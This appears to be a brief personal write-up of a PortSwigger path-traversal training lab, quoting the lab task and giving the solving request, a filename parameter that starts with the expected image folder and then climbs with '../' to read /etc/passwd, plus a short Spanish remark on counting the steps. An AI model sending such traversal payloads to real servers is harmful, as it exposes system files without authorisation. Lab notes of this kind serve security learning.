 # 5 - Validation of start of path

> This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.
>
>  The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.
>
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.

![](../../.gitbook/assets/imagen%20%28635%29.png)

```text
GET /image?filename=/var/www/images/../../../../etc/passwd HTTP/1.1
```

Recordar que nos queremos paarar en la base folder desp de images, entonces son 4 backs

